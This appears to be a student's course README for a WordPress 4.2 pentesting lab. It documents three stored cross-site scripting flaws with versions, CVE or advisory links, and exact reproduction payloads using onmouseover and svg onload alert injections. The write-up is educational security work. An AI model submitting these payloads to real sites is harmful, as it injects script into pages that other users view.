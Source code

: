 # IST590-Unit7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: Unauthenticated Persistent Stored XSS
  - [x] Summary: Post a comment with > 64k data in it and anytime you move your mouse you get a pop-up notification on the site if the comment is being displayed.
    - Vulnerability types: Unauthenticated XSS
    - Tested in version: 4.2
    - Fixed in version:  4.2.1
  - [x] GIF Walkthrough: ![GIF1](https://user-images.githubusercontent.com/22669092/69396033-d61b5f80-0c95-11ea-8fd0-1feff99bdeba.gif)
  - [x] Steps to recreate: Submit a comment with the entry:
        > <a title='x onmouseover=alert(unescape(/hello20%world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px <whatever you want, just over 64k of data, e.g. spam "A" a lot'></a>
  - [x] Affected source code: None
    - [Link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
1. (Required) Vulnerability Name or ID: Authenticated Stored XSS
  - [x] Summary: Trigger XSS through a post, mousing over it will do it
    - Vulnerability types: Authenticated stored XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: ![GIF2](https://user-images.githubusercontent.com/22669092/69396766-488d3f00-0c98-11ea-8828-04ab21333d86.gif)
  - [x] Steps to recreate: Create a new post with the body: 
        > <a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>
  - [x] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
1. (Required) Vulnerability Name or ID
  - [x] Summary: Use a youtube url embed but woah it's actually XSS oops
    - Vulnerability types: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: ![GIF3](https://user-images.githubusercontent.com/22669092/69396469-2941e200-0c97-11ea-9d03-680a29ee61fb.gif)
  - [x] Steps to recreate: Make a post and use code: 
        > [embed src='https://youtube.com/embed/videoURL<svg onload=alert("put a message in here")>'][/embed]
  - [x] Affected source code:
    - [Link](https://core.trac.wordpress.org/changeset/40160/trunk/src/wp-includes/embed.php?old=38361&old_path=trunk%2Fsrc%2Fwp-includes%2Fembed.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

-Took me a while to figure out you couldn't have spaces in the message that would pop up in the xss notification.
-Ran into some issues where posts would publish but I'd get a 404 when trying to view them, even as a preview.

## License

    Copyright [2019] [Navjot Gill]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
